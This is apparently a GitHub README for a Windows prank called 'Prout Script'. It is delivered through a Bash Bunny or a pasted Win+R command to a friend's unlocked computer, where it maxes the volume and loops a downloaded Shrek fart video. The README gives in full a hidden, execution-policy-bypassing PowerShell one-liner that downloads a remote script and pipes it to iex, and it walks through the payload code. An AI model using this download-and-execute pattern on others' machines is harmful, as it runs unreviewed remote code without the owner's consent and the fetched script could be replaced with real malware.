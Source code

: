 # Prout Script
![alt text](https://github.com/RylexOff/Prout-Script/blob/main/Prout-Script.gif?raw=true)

## Table of contents

- [Description](#description)
- [Getting Started](#getting-started)
  - [Dependencies](#dependencies)
  - [Execution](#execution)
- [Code Explanation](#code-explanation)
  - [BashBunny Script](#bashbunny-script)
  - [PowerShell Script](#powershell-script)
- [Contributing](#contributing)
- [Version History](#version-history)
- [Contact](#contact)
- [Acknowledgments](#acknowledgments)


## Description


It's a prank script designed to make your friend laugh who doesn't lock their computer. it must be run on a Windows 10 or 11 system, it does:
-Increase the volume to the maximum
-Download the video
-Launch the video in a loop (30 times max).


This script must be used as is, nothing to modify. The chosen video is a fart of Shrek, because we appreciate humor. That's why it's called the "prout-script".
ps: "Prout" = "Fart" in French

## Getting Started

### Dependencies

- Windows 10, 11
- Internet connection

### Execution

1. Plug in your bash bunny.
2. Modify the code to specify your preferred browser and video link.
3. The script will automatically execute, raising the volume to the maximum and opening the specified webpage or video.

Or

1. Windows + R
2. Past " powershell -NoP -NonI -WindowStyle Hidden -Exec Bypass "(iwr -UseBasicParsing https://raw.githubusercontent.com/RylexOff/Prout-Script/main/prout_script.ps1).Content | iex" "
3. Press Enter
   
## Code explanation

### BashBunny Script
This line of code directly executes the script content from the specified URL using Invoke-WebRequest.
```
powershell -NoP -NonI -WindowStyle Hidden -Exec Bypass "(iwr -UseBasicParsing https://raw.githubusercontent.com/RylexOff/Prout-Script/main/prout_script.ps1).Content | iex"
```
### Powershell Script

These lines increase the system volume by simulating pressing the "[char]0xAF" key which is the volume up key
```
$volume = New-Object -ComObject "WScript.Shell"
$volumeLevel = 100
for ($i = 0; $i -le $volumeLevel; $i++) {
    $volume.SendKeys([char]175)
}
```

Set the download path in a variable
```
$downloadPath = "$env:USERPROFILE\Downloads" 
```

Download the video of shrek who farts. You can modify the url to put another video certainly funnier ='(
```
(New-Object System.Net.WebClient).DownloadFile('https://cdn.discordapp.com/attachments/937329842859421706/1130437612985909298/Bruit_de_pet_qui_resonne.mp4', $downloadPath + '\shrek_Farts.mp4') 
```

Get the path of the last downloaded file
```
$videoPath = $(Get-ChildItem -Path $env:USERPROFILE\Downloads | Sort-Object -Property LastWriteTime -Descending | Select-Object -First 1).FullName
```

Open default media player
```
$shell = New-Object -ComObject Shell.Application
```

Will restart the video 30 times
```
for ($i = 1; $i -le 30; $i++) {
    $shell.ShellExecute($videoPath)
    Start-Sleep -Milliseconds 4000
    $shellWindows = $shell.Windows()
    foreach ($window in $shellWindows) {
        if ($window.Document.Title -like "*shrek_Farts*") {
            $window.Quit()
        }
    }
}
```
## Contributing

Contributors:
- RylexOff

## Version History

- 1.0: Initial Release

## Contact

- GitHub: [RylexOff](https://github.com/RylexOff)

## Acknowledgments

- [Hak5](https://hak5.org/)
- [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

